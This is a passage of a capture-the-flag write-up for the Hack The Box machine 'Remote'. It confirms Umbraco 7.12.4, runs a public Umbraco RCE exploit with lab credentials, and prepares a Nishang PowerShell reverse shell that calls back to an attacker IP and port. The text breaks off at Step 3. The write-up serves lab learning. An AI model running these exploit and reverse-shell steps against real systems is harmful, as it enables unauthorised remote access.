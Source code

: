 While searching about `Umbraco` I found there is an exploit available for the version `7.12.4`. Let's confirm whether this is also same version.

```bash
root@w0lf:~/CTF/HTB/Boxes/Remote/mount# cat Web.config | grep umbracoConfigurationStatus
		<add key="umbracoConfigurationStatus" value="7.12.4" />
root@w0lf:~/CTF/HTB/Boxes/Remote/mount#
```

Lets check whether this exploit works. [https://github.com/noraj/Umbraco-RCE](https://github.com/noraj/Umbraco-RCE)

```bash
root@w0lf:~/CTF/HTB/Boxes/Remote/Umbraco-RCE# python exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.10.10.180' -c whoami
iis apppool\defaultapppool
```

It working, why don't we upload a reverse shell with nishang. I used `nishang/Shells/Invoke-PowerShellTcp.ps1` and copied that to my directory.

## Getting a Shell

### Step 1:

Started python server on my machine.

```bash
root@w0lf:~/CTF/HTB/Boxes/Remote# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```

### Step 2:

If we look at the Shell it gives us some of the examples.

```bash
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444

Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on 
the given IP and port.
```

I copied the example and changed it to my IP and paste it at the bottom of the file.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-remote/Untitled%204.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-remote/Untitled%204.png)

### Step 3:
